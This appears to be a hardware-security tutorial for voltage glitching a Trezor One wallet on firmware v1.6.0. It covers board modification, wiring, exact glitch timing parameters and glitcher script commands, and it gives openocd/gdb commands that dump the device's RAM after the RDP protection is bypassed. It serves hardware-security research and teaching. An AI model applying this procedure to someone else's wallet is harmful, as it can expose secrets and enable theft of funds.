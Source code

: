 # Trezor One v1.6.0 glitching

This short summary will explain how to attack the Trezor One and how to get from RDP level 2 to RDP level 1 with access to RAM. With RAM access, other attacks can be performed, for example another voltage glitching attack to downgrade from RDP-1 to RDP-0.

![](images/01-original-target.JPG)

## Preparations

Begin by covering delicate components with a metal foil and desolder the marked capacitors:

![](images/02-covering-delicate-components.JPG)
![](images/03-desoldered-capacitors.JPG)

Solder a breakout pinheader to the Trezor One to get SWD access:

![](images/04-soldered-breakout-pinheader.JPG)

Glue a SMA connector to the backside of the device and connect the positive lead (middle pin) to the `V_CAP` line and the negative lead to `GND`:

![](images/05-backside.JPG)
![](images/06-sma-connector-on-vcap.JPG)

Connect a ST-Link debug adapter to the SWD lines, and the reset line to `RESET`, as well as the power lines to the Pico Glitcher:

| Trezor pins   | ST-Link | Pico Glitcher |
|---------------|---------|---------------|
| RESET         |         | RESET output  |
| GND           | GND     | GND           |
| SWO           |         |               |
| SWCLK         | SWCLK   |               |
| SWDIO         | SWDIO   |               |
| VDD           | T_VCC   | VTARGET       |
| SMA connector |         | SMA crowbar   |

Connect the input `EXT1` to the crowbar glitch output `GLITCH`. This is necessary to trigger on the rising-edge of the voltage on the `V_CAP` line (green dupont cable). Turn the potentiometer labeled `ATN` all the way to the right (clockwise). The `THR` potentiometer should be adjusted during the execution of the glitcher script so that no timeouts occur (probable `3/4` position, the arrow points to the left).

![](images/07-glitching-setup.JPG)
![](images/08-trezor-connections.JPG)


Connect channel 1 of a oscilloscope to the `VCAP` line via the SMA connector, channel 2 two the `VTARGET` output and the external trigger input of the oscilloscope to the `EXT1` hook.

![](images/09-pico-glitcher-setup.JPG)

DO NOT connect the Trezor one during glitching via USB to your computer.

## Voltage traces

Verify the startup sequence of the STM32F205 by measuring the voltage trace during startup:

![](images/10-startup.bmp)

The level of the voltage supply should slowly rise in comparison to the voltage on the `V_CAP` line. Furthermore, the voltage output on the `VCAP` line is delayed approximately 150ms after the device is powered on. Powering the device and measuring the voltage trace can be done with the command:

```bash
power-on --rpico /dev/<tty-device>
```

## Glitching

Now everything is set up, we can start glitching our device. For this, the script `stm32f2-boot-debugger.py` has been prepared. This script powers up the device, waits for the trigger signal on input `EXT1`, waits a given delay and emits a glitch of a certain length. Afterwards, it is tested if memory can be read from RAM.

![](images/11-vcap-power-trace.bmp)

Successful glitches should be found about 176us after the VCAP line comes up. Start by searching a wider parameter space and reduce the parameter space when the first positive events are observed. The glitch length is not critical, but in general shorter glitches are preferable.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1
```

![](images/12-parameterspace.png)

In the default configuration, the script does not halt if a positive glitch is detected. This is helpful to search for good parameters. If you want to get debug access to the RAM, you can use the `--halt` parameter and stop execution of the script. Use `--resume` to resume a previous capture.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1 --resume --halt
```

If the script is halted, further instructions are printed on in the terminal if a successful glitch is detected:

```bash
[+] Experiment 158	12914	(3)	176526	126	R	b'success: read zero'
[+] Now connect the Trezor One via USB with your computer and go to the Trezor Suite app.
    Wait for the Trezor One to connect. Do not abort this script!
    If the pin input on the Trezor comes up, execute the following command to dump the memory:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
    Connect to openocd via gdb or telnet:
    $ telnet localhost 4444
    $ arm-none-eabi-gdb
    (gdb) target remote :3333
    (gdb) monitor reset halt
    (gdb) continue
    Or dump the RAM as is with the following command:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

In this state, you can either try to dump the RAM content:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

Or you can connect to the device via telnet or gdb:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
```

Telnet:
```bash
telnet localhost 4444
```

GDB:
```bash
arm-none-eabi-gdb
(gdb) target remote :3333
(gdb) monitor reset halt
(gdb) continue
```